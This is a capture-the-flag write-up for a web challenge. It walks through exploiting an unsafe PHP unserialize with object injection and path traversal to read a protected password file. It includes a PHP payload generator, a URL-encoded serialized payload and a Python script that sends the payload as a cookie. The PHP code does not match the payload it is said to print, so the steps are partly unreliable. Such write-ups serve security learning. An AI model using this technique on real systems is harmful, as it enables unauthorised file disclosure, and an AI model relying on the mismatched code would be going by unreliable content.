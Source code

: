 Web C - 200
	Ah, the art of looking back on what you have accomplished.

[Web C](http://web.camsctf.com/12)

-------------

It seems that we wish to read a file in `/1/`. Looking in the source code, we see that the file we want is `pass12.txt` (which we don't have permission to), and there's also a `useful.php`. Going over to http://web.camsctf.com/12/useful.php, we see a serializer/unserializer! Interesting...

![useful.php](http://i.imgur.com/lW85ZQ4.png)

We now look at response.js, which says at the bottom:

	// I have reason to believe that the true purpose of read.php is located in read.png - Lujing

`read.php` is what happens when we click the button in useful.php, and read.png shows us:

![read.png](http://web.camsctf.com/12/read.png)

Wow! An unsafe `unserialize`! Using PHP object injection (https://www.owasp.org/index.php/PHP_Object_Injection), we can get that file!

Our php source code:
```php

<?php
class readfile
{
   public $private_file = 'readfile("../1/pass12.txt")';
}

print urlencode(serialize(new readfile));
?>

```

Which gives us:

	O%3A8%3A%22readfile%22%3A1%3A%7Bs%3A22%3A%22%00readfile%00private_file%22%3Bs%3A15%3A%22..%2F1%2Fpass12.txt%22%3B%7D

We then write a quick python script to solve the problem:

```python
import requests
cooky = {'data':'O%3A8%3A%22readfile%22%3A1%3A%7Bs%3A22%3A%22%00readfile%00private_file%22%3Bs%3A15%3A%22..%2F1%2Fpass12.txt%22%3B%7D'}
r = requests.post("http://web.camsctf.com/12/read.php",cookies=cooky)
print(r.text)
```

And we get:

`path_traversal_con_object_injection`

We plug this into the password box to get our flag!

Flag: `{am_i_a_real_hacker_now}`
